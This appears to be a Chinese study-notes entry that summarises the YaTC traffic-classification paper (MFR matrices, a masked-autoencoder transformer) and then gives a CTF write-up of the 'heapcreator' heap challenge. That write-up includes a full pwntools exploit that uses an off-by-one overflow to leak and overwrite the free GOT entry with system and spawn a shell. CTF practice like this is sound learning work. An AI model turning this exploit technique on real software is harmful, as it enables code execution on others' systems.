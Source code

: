 # 2024-1-28

## Yet Another Traffic Classifier: A Masked Autoencoder Based Traffic Transformer with Multi-Level Flow Representation

### 工作摘要

该论文设计了一个MFR矩阵，通过格式化的矩阵来表示原始流量的多层次信息，并开发了一种新的流量Transformer，以实现在各个层次上更有效的特征提取。为了减少对标记数据的依赖，该论文利用了大规模的未标记数据进行预训练，然后使用少量标记数据进行流量分类。

### 论文思路

预训练方法通过自监督学习显著降低了对标记训练数据的需求，对于流量分类通常将其视为某种语句利用NLP的方法进行预训练。但由于流量字节缺乏明显的高级语义，所以使用CV来提取流量字节的潜在含义更为合适。

但在CV中以往的与训练方法依赖于数据增强以形成成对的正样本和负样本，用于通过对比学习进行预训练。但流量数据的数据增强会严重破坏原始信息无法进行对比学习，而MAE方法则可以通过掩蔽用于中间训练的补丁来构造有效的流量数据预训练模型

![1](image/1.png)

#### MFR矩阵

该方法使用了一个MFR矩阵与格式化的二维矩阵来表示原始流量，首先根据IP地址、端口号和协议类型将原始流量拆分为流。为了避免引入干扰，该方法会删除流的以太网报头，将端口号设置为零，并将IP替换为随机地址，但保持其传播方向。最后，捕获流中的$M$个相邻分组，并将其格式化为大小为$H*W$的二维矩阵。该矩阵拥有以下三种特征

1. 字节层面：MFR流量矩阵中每一行仅包括一种类型的流量字节，分为报头行和有效载荷行
2. 分组层面：每个分组由包头矩阵和有效载荷矩阵表示，形成大小为 $H/M*W$ 的分组级矩阵
3. 流量层面：由于流是由有序的数据包组成的，因此M个相邻的数据包级矩阵在第二维中堆叠以形成最终的MFR矩阵。

该文将MFR矩阵设置为包含5个数据包的矩阵，总共40行，每行包含40个字节。每个数据包的报头由2个80字节的报头行表示，能够包含IP层报头（20字节）、TCP报头（20字节）或UDP报头（8字节）以及可选报头。为每个数据包的有效载荷分配6个有效载荷行，并在超过240字节时执行截断。如果有效字节数不足，则将用0字节填充。

#### Traffic Transformer

根据流量的特点，设计了由嵌入模块、数据包级注意力模块和流级注意力模块组成的Traffic Transformer，并利用MFR矩阵对流量进行有效分类。

##### 嵌入模块

MFR矩阵 $x∈R^{H \times W}$ 会被分成大小为 $P \times P$ 非重叠2D补丁， 数量为 $N=HW/P^2$ ,表示为 $x_p∈R^{N \times P^2}$。然后通过线性层将补丁映射到 $D$ 维向量作为补丁嵌入。为了保持在MFR中至关重要的位置信息，将位置嵌入 $E_{pos}$ 添加到补丁嵌入中作为业务编码器的输入。


$$
x_0 = [x^1_pE;x^2_pE;...;x_p^NE] + E_{pos}
$$
在本文中作者取 $D = 192，P = 2，N = 20*20 = 400$ 使一个补丁的所有元素都表示相同类型的原始字节，每个包矩阵包含一行报头补丁和三行有效载荷补丁。

##### 数据包级注意力模块

该模块使用了一种基于Vision Transformers的流量编码器

它由交替的多头自注意层（MSA）和前馈层组成。为了优先学习分组内的报头补丁或有效载荷补丁之间的依赖性，业务编码器仅在同一分组中的补丁之间而不是MFR矩阵中的所有补丁之间执行多头自注意。

MSA层允许数据包的补丁根据不同头 $Concat（head1，· · ·，headn）$ 的相关程度有效地相互交互，并且每个头由注意力函数计算：


$$
Q=x_lW^Q,K=x_lW^K,V=x_lW^V
\\
Attn(Q,K,V)=SOFTMAX(  \frac{QK^T}{\sqrt D_k})V
$$
其中$W^Q、W^K、W^V ∈ R^{D×D_k}$是可学习的参数。在这项工作中采用 $n = 16$ 平行注意头和 $L = 4$ 交替层。

##### 流级注意力模块

数据包级注意力模块输出了MFR矩阵 $x∈R^{H \times W}$ 中每个补丁的重要数据包级特征，为了进一步提取数据流上不同包的长距离关系依赖，该文中为了以更粗的粒度学习数据包间的关系采用了行池化（RP），它按行将数据包级注意力模块所输出的补丁的特征进行部分平均池化来生成行补丁。


$$
x_r=Pooling(x^{'}_p)
$$


每个分组包含1个报头行补丁和3个有效载荷行补丁，表示分组内的部分特征，将MFR矩阵中的所有行补丁输入到流量编码器中，MSA层捕获行补丁之间的流级信息。最终输出是一列行补丁特征$x_c ∈ R^{\sqrt{N}×D}$，这些行补丁特征进一步被执行列池化（CP）以获得整个MFR矩阵的最终表示 $x_{MFR} ∈ R^D$：


$$
x_{MFR}=Pooling(x_c)
$$


## Pwn



进入主函数之后是一个功能选取界面，分别是开辟空间，编辑空间，展示空间，释放空间。

![image-20230916122401722](image/2.png)

进入空间开品函数内部，这里一次会开辟两个空间，第一个是0x10大小的空间，分别存储开辟空间的大小和地址，接着正常开辟空间。

![image-20230916123948037](image/3.png)

进入编辑函数我们可以看见他会根据第一个创建空间中的信息进行空间编辑，并且写入的大小会造成**off by one**漏洞，我们可以多输入一个字节来修改空间的大小，我们可以开辟一个0x18大小的空间，这样溢出的字节就可以修改下一个控制空间的大小。这样我们就可以控制下一个控制空间，将其大小改为8，地址改为free的got表，进行输出和修改进行攻击

```python
from pwn import *
from LibcSearcher import LibcSearcher
sh=remote("node4.buuoj.cn",25191)
elf=ELF('./heapcreator')

def create(length,value):
        sh.recvuntil("Your choice :")
        sh.sendline("1")
        sh.recvuntil("Size of Heap : ")
        sh.sendline(str(int(length)))
        sh.recvuntil("Content of heap:")
        sh.sendline(value)
def edit(index,value):
        sh.recvuntil("Your choice :")
        sh.sendline("2")
        sh.recvuntil("Index :")
        sh.sendline(str(int(index)))
        sh.recvuntil("Content of heap : ")
        sh.sendline(value)
def show(index):
        sh.recvuntil("Your choice :")
        sh.sendline("3")
        sh.recvuntil("Index :")
        sh.sendline(str(int(index)))
def delete(index):
    sh.recvuntil('Your choice :')
    sh.sendline('4')
    sh.recvuntil(b'Index :')
    sh.sendline(str(int(index)))

create(0x18,b'aaaa')
create(0x10,b'bbbb')
create(0x10,b'cccc')
create(0x10,b'/bin/sh')

edit(0,b'a'*0x18+b'\x81')
delete(1)

size = b'\x08'.ljust(8,b'\x00')
payload = b'd'*0x40+ size + p64(elf.got['free'])
create(0x70,payload)
show(2)
sh.recvuntil('Content : ')
free_addr = u64(sh.recvuntil('Done')[:-5].ljust(8,b'\x00'))
print(hex(free_addr))
libc=LibcSearcher("free",free_addr)
system_addr=free_addr+libc.dump("system")-libc.dump("free")

edit(2,p64(system_addr))
delete(3)
sh.interactive()
```

